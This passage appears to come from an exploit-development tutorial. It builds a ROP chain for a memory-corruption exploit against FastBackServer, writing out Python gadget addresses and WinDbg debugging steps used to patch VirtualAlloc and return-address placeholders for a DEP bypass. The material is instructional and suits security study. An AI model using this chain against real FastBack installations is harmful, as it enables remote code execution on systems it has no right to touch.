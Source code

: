 
Once again, we restart FastBackServer and WinDbg. This time, we set a breakpoint on 0x5053a0f5 to skip directly to the gadget containing the POP EAX instruction.
	bp 0x5053a0f5
	g
	p
	p
	p
	p
	p
	p
	p
	u eax L1
	


The last step is to overwrite the placeholder value on the stack at the address we have stored in ESI.

We can use an instruction like MOV DWORD [ESI], EAX to write the address in EAX onto the address pointed to by ESI. Our updated ROP chain

rop = pack("<L", (0x5050118e)) # mov eax,esi ; pop esi ; retn
rop += pack("<L", (0x42424242)) # junk
rop += pack("<L", (0x505115a3)) # pop ecx ; ret
rop += pack("<L", (0xffffffe4)) # -0x1C
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret
rop += pack("<L", (0x50537d5b)) # push eax ; pop esi ; ret
rop += pack("<L", (0x5053a0f5)) # pop eax ; ret
rop += pack("<L", (0x5054A221)) # VirtualAlloc IAT + 1
rop += pack("<L", (0x505115a3)) # pop ecx ; ret
rop += pack("<L", (0xffffffff)) # -1 into ecx
rop += pack("<L", (0x5051579a)) # add eax, ecx ; ret
rop += pack("<L", (0x5051f278)) # mov eax, dword [eax] ; ret
rop += pack("<L", (0x5051cbb6)) # mov dword [esi], eax ; ret
rop += b"C" * (0x400 - 276 - 4 - len(rop))

restart FastBackServer and WinDbg and set a breakpoint on the address of our newly added gadget. Now we can send the packet:
	bp 0x5051cbb6
	g
	p
	dds esi L1
	



Patching the return address


In this section, we must solve a problem very similar to patching the address of VirtualAlloc. First, we must align ESI with the placeholder value for the return address on the stack. Then we need to dynamically locate the address of the shellcode and use it to patch the placeholder value.

At the end of the last section, ESI contained the address on the stack where VirtualAlloc was written. This means that ESI is only four bytes lower than the stack address we need. An instruction like ADD ESI, 0x4 would be ideal, but it does not exist in our selected module.
